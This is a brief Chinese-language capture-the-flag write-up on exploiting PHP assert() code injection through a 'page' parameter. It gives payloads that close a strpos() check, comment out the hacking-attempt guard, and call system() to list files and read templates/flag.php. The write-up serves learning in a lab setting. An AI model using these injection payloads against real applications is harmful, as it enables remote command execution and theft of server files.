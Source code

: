 assert（断言函数）这个函数在[php语言](https://so.csdn.net/so/search?q=php语言&spm=1001.2101.3001.7020)中是用来判断一个表达式是否成立。返回true or false;

我们先将strpos闭合，然后将后面的语句'..')===false") or die ("Detected hacking attempt!")注释掉

?page=').system('ls')://

![image-20241118223505032](D:\ctf wp\40.2.assets\image-20241118223505032.png)

想起来templates里有flag.php ,所以我们直接构造payload: ?page=').system("cat templates/flag.php");//

或者

page=') or system("cat templates/flag.php");//

其中可以cat * / *打开所有文件

![image-20241118194619085](D:\ctf wp\40.2.assets\image-20241118194619085.png)

